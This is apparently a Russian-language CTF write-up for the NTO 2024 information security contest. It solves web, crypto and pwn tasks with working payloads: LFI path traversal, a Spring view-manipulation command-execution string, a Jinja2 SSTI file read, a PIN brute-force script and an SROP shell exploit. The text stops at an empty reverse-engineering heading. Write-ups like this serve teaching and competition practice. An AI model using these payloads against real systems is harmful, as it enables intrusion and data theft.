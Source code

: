 # Решения заданий НТО ИБ 2024 1337Rpwn4
# CTF

### WEB 1

Заходим на таск и видим календарь, один из дней на котором окрашен в типичную HTML-гиперссылку. Нажимаем. Идёт редирект на: `/download?file_type=file1.txt`

Пробуем LFI:
```
download?file_type=../../../../../../../../../etc/secret
```

Флаг: `nto{P6t9_T77v6RsA1}`

### WEB 2

Заливаем `jar`-файл в `jd-gui` и видим следующий, казалось бы, пустой метод:

```
  @GetMapping({"/doc/{document}"})
  public void getDocument(@PathVariable String document) {
    System.out.println("This function is not ready yet");
  }
```

Пробуем `Spring View Manipulation Vulnerability`:

```
/doc/__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat%20flag%22).getInputStream()).next()%7D__::..x
```

Флаг: `nto{abobovichasdfas}`

### WEB 3

На эндпоинте `/flag` видим 403 ошибку. Заходим в исходники и находим `haproxy`. Пробуем дефолтные байпассы, сработал, например, `//flag`.

Далее фильтруемая `SSTI` в `Jinja2`. Гуглим хактриксы и вводим:

```
//flag?name={{(request|attr(request.args.c))._load_form_data.__globals__.__builtins__.open(%22flag.txt%22).read()}}&c=__class__
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`

### Crypto 1

На сервере существует эндпоинт для проверки пина, известно что пин - число и зашифрованный правильный пин маленького размера => Можно написать брутфорс

Код брутфорса:
```python
import requests
import time


url = "http://192.168.12.12:5000/api"

if __name__ == "__main__":
    print()
    for i in range(10 ** 10):
        resp = requests.post(url + "/CheckPin", json={'pin': i})
        if resp.status_code != 500:
            print("!!!!{}!!!!".format(resp.json()))
            break
        else:
            print(i)
        time.sleep(0.01)
```

### PWN 2

Решение бинарной уязвимости было взято из примеров: [ссылка1](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), [ссылка2](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/syscalls/exploitation-with-syscalls.md)

Код:
```python
from pwn import *

elf = context.binary = ELF('./task')
p = remote("192.168.12.13", 1555)

binsh = elf.address + 0x1430

POP_RAX = 0x41018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = binsh
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = SYSCALL

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xF)
payload += p64(SYSCALL)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

### Reverse 1

